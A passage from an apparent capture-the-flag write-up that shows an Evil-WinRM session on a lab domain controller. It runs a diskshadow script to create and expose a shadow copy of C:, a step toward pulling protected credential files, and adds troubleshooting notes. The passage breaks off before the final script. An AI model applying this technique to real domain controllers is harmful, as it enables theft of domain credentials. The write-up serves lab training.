 I could also have just started running out of a writable directory, like `programdata`.

After `unix2dos`, upload and run, and it works:

```
*Evil-WinRM* PS C:\windows\system32> diskshadow /s c:\programdata\vss.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  6/9/2020 9:15:49 PM
-> set context persistent nowriters
-> set metadata c:\programdata\df.cab
-> set verbose on
-> add volume c: alias df
-> create

Alias df for shadow ID {fe96248c-9468-4892-befc-a9ac2dda6a8e} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {e5573ff3-af32-4b6e-961a-8db9a3e76625} set as environment variable.
Inserted file Manifest.xml into .cab file df.cab
Inserted file Dis6354.tmp into .cab file df.cab

Querying all shadow copies with the shadow copy set ID {e5573ff3-af32-4b6e-961a-8db9a3e76625}
        * Shadow copy ID = {fe96248c-9468-4892-befc-a9ac2dda6a8e}               %df%
                - Shadow copy set: {e5573ff3-af32-4b6e-961a-8db9a3e76625}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{351b4712-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 6/9/2020 9:15:50 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %df% z:
-> %df% = {fe96248c-9468-4892-befc-a9ac2dda6a8e}
The shadow copy was successfully exposed as z:\.
->

```

#### Success

In summary, to get this script working, I needed to
- Make sure the input script file uses Windows line endings. If I write the script file on Kali, I’ll need to use `unix2dos` on it before uploading.
- Set the metadata path to something writable, or run from a directory I can write to or set the metadata path.
- Some quick testing shows it is fine to run from outside `system32` despite what the blog post said.

The working script is:
